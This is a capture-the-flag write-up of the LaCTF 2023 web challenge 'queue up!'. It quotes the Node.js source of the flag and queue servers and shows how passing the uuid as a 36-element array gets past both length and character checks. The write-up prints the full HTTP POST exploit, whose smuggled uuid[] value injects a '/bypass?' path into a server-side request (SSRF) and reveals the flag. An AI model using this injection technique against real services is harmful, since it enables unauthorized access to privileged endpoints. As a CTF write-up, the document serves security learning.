


queue up! is a web challenge in LaCTF 2023 that ended with 34 solves. The goal is to retrieve a flag that is sent by a web application when the queue goes down and the timer reaches zero. However, with over 20,000 users waiting for the flag, the estimated time to win is about 80+ days (with only one flag being sent every 5 minutes).

```
I've put the flag on a web server, but due to high load, I've had to put a virtual queue in front of it. Just wait your turn patiently, ok? You'll get the flag eventually.

Disclaimer: Average wait time is 61 days.
```



## Analysis of the Application Design

The first step in solving this challenge is to analyze the source code to identify the most important features to test. The web app consists of two independent servers: the flag server (https://qu-flag.lac.tf/) and the queue server (https://qu-queue.lac.tf/).

The flag server only performs two tasks: if the user requests `/` using the GET method, they will be redirected to the queue server, and if the timer of the queue server reaches zero, the user will be redirected back to the flag server using the POST method, and the flag will be sent.

This is the high-level logic of the web application:

- The user arrives to the flag server.
- The user cannot read the flag until his timer reaches zero, so he is redirected to the queue server to wait.
- When the timer reaches zero the user has the option of being redirected back to the flag server in order to get the flag.

## Source Code Analysis

```javascript=
    app.get("/api/:uuid/status", async (req, res) => {
        try {
            const user = await Queue.findByPk(req.params.uuid);
            res.send(user.served);

        } catch {
            res.send("false");
        }

    });

    app.get("/api/:uuid/bypass", async (req, res) => {
        try {
            const user = await Queue.findByPk(req.params.uuid);
            if (user === undefined) {
                res.send("uuid not found");
            } else {
                await user.update({served: true});
                res.send("bypassed");
            }
        } catch {
            res.send("invalid uuid");
        }

    });
```

During the source code analysis, two key points were identified:

- The queue server has two privileged functionalities only available to administrators. The first is to prioritize users in the queue, reducing waiting time, and the second is to check the status of users in the queue to determine if they can receive the flag.
- The flag server has a uuid verification process. The user submits their uuid in the request body, and the server checks if:
    - The uuid has a length of 36
    - The uuid contains only numbers, letters, and hyphens.
    - If both requirements are met, the flag server will execute a request to the queue server's status functionality to determine if the user can receive the flag.

```javascript=
app.post("/", async function (req, res) {
    let uuid;
    try {
        uuid = req.body.uuid;
    } catch {
        res.redirect(process.env.QUEUE_SERVER_URL);
        return;
    }

    if (uuid.length != 36) {
        res.redirect(process.env.QUEUE_SERVER_URL);
        return;
    }
    for (const c of uuid) {
        if (!/[-a-f0-9]/.test(c)) {
            res.redirect(process.env.QUEUE_SERVER_URL);
            return;
        }
    }


    const requestUrl = `http://queue:${process.env.QUEUE_SERVER_PORT}/api/${uuid}/status`;
    try {
        const result = await (await fetch(requestUrl, {
            headers: new Headers({
                'Authorization': 'Bearer ' + process.env.ADMIN_SECRET
            })
        })).text();
        if (result === "true") {
            console.log("Gave flag to UUID " + uuid);
            res.send(process.env.FLAG);
        } else {
            res.redirect(process.env.QUEUE_SERVER_URL);
        }
    } catch {
        res.redirect(process.env.QUEUE_SERVER_URL);
    }

});
```

## Vulnerability and Exploitation

There is a critical vulnerability in the checks performed by the flag server. By using arrays, it is possible to bypass both checks and modify the server's request (SSRF) to bypass the user's position in the queue.

The exploit used during this challenge involves sending a POST request to the `/` endpoint of the flag server with the uuid as a POST parameter in the body. 

```
POST / HTTP/1.1
Host: qu-flag.lac.tf
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 366

uuid[]=70964ab7-1025-4f86-a378-ab3b737bed3a/bypass?&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a
```
This payload will meet the condition of being 36 in length (in this case 36 elements in the array instead of 36 characters) and will bypass character validation because it is not a string. When constructing the `requestUrl` the 36 elements of the array will be concatenated one after the other using commas so that the following `requestUrl` will result: `http://queue:${process.env.QUEUE_SERVER_PORT}/api/${uuid}/bypass?/status,a,a,a,a,a,a,a,a,a,a,a,a,a,a....`.

This way we will exploit the SSRF vulnerability in the flag server and have our uuid bypassed, thus obtaining the flag without having to wait in the queue.



Note: When clicking the Get my flag! button, the connection may fail because it uses HTTP instead of HTTPS.

Flag: `lactf{Byp455in_7he_Qu3u3}`
